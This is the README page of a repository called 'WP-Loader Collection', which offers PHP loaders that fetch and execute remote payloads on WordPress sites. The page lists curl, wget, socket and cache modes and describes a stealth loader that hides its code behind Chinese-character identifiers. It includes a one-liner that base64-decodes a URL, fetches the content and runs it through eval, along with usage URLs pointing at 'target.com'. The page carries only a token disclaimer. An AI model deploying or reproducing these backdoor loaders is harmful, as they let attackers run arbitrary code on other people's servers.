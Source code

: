 <!DOCTYPE html>
<html lang="en">
</head>
<body>

  <h1>🌀 WP-Loader Collection — Universal PHP Loaders</h1>
  <p><strong>🔥 Universal PHP loader collection</strong> created by 
    <a href="https://github.com/6ickzone" target="_blank">0x6ick</a>.  
    This repository contains different types of loaders (multi-mode, one-liner, stealth) designed to fetch and execute remote payloads.</p>

  <p><strong>⚠️ Disclaimer:</strong> This tool is provided for educational and research purposes only.  
  Any misuse or illegal activity is not the responsibility of the author.</p>

  <hr>

  <div class="section">
    <h2>📂 Repository Structure</h2>
    <pre><code>/loader/wp-loader.php    # Main multi-mode loader panel
/loader/b64loader.php           # One-liner base64 loader
/loader/loadman.php             # Stealth loader (cURL + file_get_contents) with Mandarin variables
</code></pre>
  </div>

  <div class="section">
    <h2>✨ Available Loaders</h2>

    <h3>1. wp-loader.php</h3>
    <p><strong>Multi-mode loader panel</strong> with the following modes:</p>
    <ul>
      <li><code>curl</code> → Loader using cURL</li>
      <li><code>curlman</code> → Refactored curl loader</li>
      <li><code>tmp</code> → Temporary file-based loader</li>
      <li><code>cache</code> → Loader with cache mechanism</li>
      <li><code>curlv2</code> → Alternative curl loader</li>
      <li><code>wget</code> → wget/curl + include method</li>
      <li><code>socket</code> → Raw socket GET loader</li>
      <li><code>telegram</code> → Author contact info</li>
    </ul>
    <p><strong>Usage:</strong></p>
    <pre><code>http://target.com/wp-loader.php?mode=curl</code></pre>

    <h3>2. b64loader.php</h3>
    <p><strong>One-liner base64 loader</strong></p>
    <ul>
      <li>Decodes a URL from base64 → fetches → executes via eval</li>
      <li>Extremely short and stealthy</li>
    </ul>
    <p><strong>Example snippet:</strong></p>
    <pre><code>&lt;?= @eval("?>".file_get_contents(base64_decode("..."))); ?&gt;</code></pre>

    <h3>3. loadman.php</h3>
    <p><strong>Stealth loader with Mandarin style</strong></p>
    <ul>
      <li>Function and variable names in Chinese characters (汉字)</li>
      <li>Flow: cURL → fallback to file_get_contents → eval</li>
      <li>Error output: "加载失败 (Failed to load)"</li>
    </ul>
    <p><strong>Usage:</strong></p>
    <pre><code>http://target.com/loadman.php</code></pre>
  </div>

  <hr>

  <div class="section">
    <h2>📜 License</h2>
    <p><a href="http://www.wtfpl.net" target="_blank">WTFPL v2</a></p>
    <pre><code>DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
Version 2, December 2004</code></pre>
  </div>

  <div class="section">
    <h2>👤 Author</h2>
    <ul>
      <li><strong>0x6ick (a.k.a 6ickzone)</strong></li>
      <li>Telegram: <a href="https://t.me/Yungx6ick" target="_blank">@Yungx6ick</a></li>
    </ul>
  </div>

</body>
</html>
